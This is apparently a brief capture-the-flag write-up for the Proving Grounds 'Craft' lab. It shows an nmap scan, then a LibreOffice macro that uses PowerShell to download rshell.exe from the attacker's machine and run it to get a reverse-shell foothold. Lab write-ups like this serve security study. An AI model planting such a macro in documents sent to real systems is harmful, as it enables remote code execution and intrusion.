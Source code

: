 layout: post
title:  "Write Up: Proving Grounds Practice - Craft"
date:   2024-07-23 12:08:25 -0400
categories: oscp proving-grounds TJNull windows
---



192.168.241.169
me - 192.168.45.231

As always we kick it off with an nmap scan

┌──(kali㉿kali)-[~/offsec/pg-practice/Craft]
└─$ sudo nmap -sC -sV -p- -Pn -oA craft 192.168.241.169 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 16:54 EDT
Nmap scan report for 192.168.241.169
Host is up (0.036s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Craft

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.41 seconds

setting up libreword macro to upload on the site

Sub Main
    Shell("cmd /c powershell iwr 'http://192.168.45.231/win/rshell.exe' -o 'C:/windows/tasks/rshell.exe'")
    Shell("cmd /c 'C:/windows/tasks/rshell.exe'")
End Sub


Got foothold
